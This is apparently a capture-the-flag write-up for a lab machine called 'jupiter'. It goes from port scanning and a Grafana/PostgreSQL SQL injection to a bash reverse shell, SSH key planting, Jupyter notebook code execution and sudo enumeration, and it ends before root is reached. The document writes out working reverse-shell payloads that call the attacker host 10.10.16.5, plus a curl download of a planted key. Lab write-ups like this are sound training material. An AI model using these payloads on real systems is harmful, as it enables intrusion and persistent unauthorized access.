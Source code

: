```yaml
---
title: "From SQLi to Root"
date: 2023-10-15
---
```




# Enumeration 
IP: 
```shell
10.10.11.233
```
Ports:
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Found Grafana Dashboard - `Grafana v9.5.2 (cfcea75916)`

## Reverse Shell

```shell
nc -lvnp 6969
```

### SQL Exploit 
``"CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.16.5/6969 0>&1\"'"``

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


``ls -ls /tmp/bash``

``./bash -p``

## Copy ssh keys to victim machine
Generate new keys https://linuxhandbook.com/add-ssh-public-key-to-server/

On the Offensive machine - 
```shell
 ssh-keygen -t rsa -b 4096 -C "your_email@example.com"
```

```shell
python3 -m http.server
```

On the Victim's machine 
```shell
curl -O http://10.10.16.5:8000/id_rsa.pub

#then 

mv id_rsa.pub authorized_keys
```

On the Attackers machine 
```shell
ssh -i id_rsa juno@10.10.11.216
```

Success found user.txt!!!!

---
# Root Flag
Running `cat shadow-simulation.sh`
```bash
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
```

# **Pivoting : Juno → jovian**

In user shell I type ``netstat -nptl`` command to list all active port running internally in that Machine.

```shell
ssh -i id_rsa -L 8888:127.0.0.1:8888 juno@10.10.11.216
```
This command will forward that port(8888) in my machine. And I can easily access that. :)

navigating to `localhost:8888` with my browser I found a Jupyter labs notebook


TIp `cat *| grep "token"`

After logging in with the token I was able to edit the python notebook and add a reverse shell.
```python
import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.16.5/6969 0>&1\"')
```
Success

## Privilege escalation Jovian -> root
```shell
sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```
Find all config.json files
```shell
find / -name config.json 2>/dev/null
```

Found `/usr/local/share/sattrack/config.json`

